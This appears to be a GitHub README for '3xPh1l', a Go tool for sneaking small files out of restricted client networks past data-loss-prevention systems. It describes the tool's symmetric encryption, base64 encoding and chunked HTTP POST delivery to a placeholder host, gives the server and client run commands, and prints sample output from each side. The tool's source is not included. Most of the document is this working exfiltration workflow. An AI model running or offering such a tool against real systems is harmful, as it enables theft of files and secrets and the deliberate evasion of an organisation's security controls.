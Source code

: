 3xPh1l is a really simple file exfiltration tool, designed to be used in restricted client envs where you might need to exfiltrate small amounts of data. Potentially avoiding DLP systems.

Currently the tool encrypts symetrically, base 64 encodes the data and then uses HTTP Post requests to send the data. 

The long term goal is to support DNS as well as HTTPS, but this works for now. 

### Known Bugs ###
The tool struggles with files bigger than say, an ssh key file. Therefore it's kind of useless for any sizeable exfiltration. However, I am working on fixing this.

Currentl usage:

```sh
go run exfilserver.go
key to encrypt/decrypt : 7ac9acc458e5db743725a559a470b7dcc37c3435795829ced16cc1f26cb5ab73
```

Then go to your client (make sure it's pointed at your URL (you can modify this in the code)

```sh
notroot@consultant-rs:~/tools/b64exfil/Client Side$ go run main.go test.txt 7ac9acc458e5db743725a559a470b7dcc37c3435795829ced16cc1f26cb5ab73
encoded plaintext:
hello my name is Phil
And I am bad at chunking files
but let's keep giving this
a go
shall we


encrypted text
904d3b85ec9e87d8a28d91d8134bc6f87bd68effceeee20233b291b5fae3356f0b188b8176c7400fc1af27328ab7d9d416fa7a40bb4ac1650de19504d5d05c6a3ff3a02bb86db71340afce9a4e254ede3e2bc645e493a661f82f56a6fd9f508313986c3cdc5ba0dabba618094483c57f6e62e5b3536ae87503b77a
ENCODED: OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVlMjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhhYjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAyYmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJmNTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2ZTYyZTViMzUzNmFlODc1MDNiNzdh
6
Sending Chunk 0:
OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl
http://website/delivery
Sending Chunk 1:
MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh
http://website/delivery
Sending Chunk 2:
YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy
http://website/delivery
Sending Chunk 3:
YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm
http://website/delivery
Sending Chunk 4:
NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2
http://website/delivery
Sending Chunk 5:
ZTYyZTViMzUzNmFlODc1MDNiNzdh
http://website/delivery
All chunks sent, sent to /done
328
```
Your server should then have printed the text to it's output:

```sh
Recieved Parcel 0 : OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl
Recieved Parcel 1 : MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh
Recieved Parcel 2 : YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy
Recieved Parcel 3 : YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm
Recieved Parcel 4 : NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2
Recieved Parcel 5 : ZTYyZTViMzUzNmFlODc1MDNiNzdh
Base64 Encoded Output:
[OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVl MjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhh YjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAy YmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJm NTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2 ZTYyZTViMzUzNmFlODc1MDNiNzdh]
OTA0ZDNiODVlYzllODdkOGEyOGQ5MWQ4MTM0YmM2Zjg3YmQ2OGVmZmNlZWVlMjAyMzNiMjkxYjVmYWUzMzU2ZjBiMTg4YjgxNzZjNzQwMGZjMWFmMjczMjhhYjdkOWQ0MTZmYTdhNDBiYjRhYzE2NTBkZTE5NTA0ZDVkMDVjNmEzZmYzYTAyYmI4NmRiNzEzNDBhZmNlOWE0ZTI1NGVkZTNlMmJjNjQ1ZTQ5M2E2NjFmODJmNTZhNmZkOWY1MDgzMTM5ODZjM2NkYzViYTBkYWJiYTYxODA5NDQ4M2M1N2Y2ZTYyZTViMzUzNmFlODc1MDNiNzdh
6
Decoded String
904d3b85ec9e87d8a28d91d8134bc6f87bd68effceeee20233b291b5fae3356f0b188b8176c7400fc1af27328ab7d9d416fa7a40bb4ac1650de19504d5d05c6a3ff3a02bb86db71340afce9a4e254ede3e2bc645e493a661f82f56a6fd9f508313986c3cdc5ba0dabba618094483c57f6e62e5b3536ae87503b77a
hello my name is Phil
And I am bad at chunking files
but let's keep giving this
a go
shall we
```

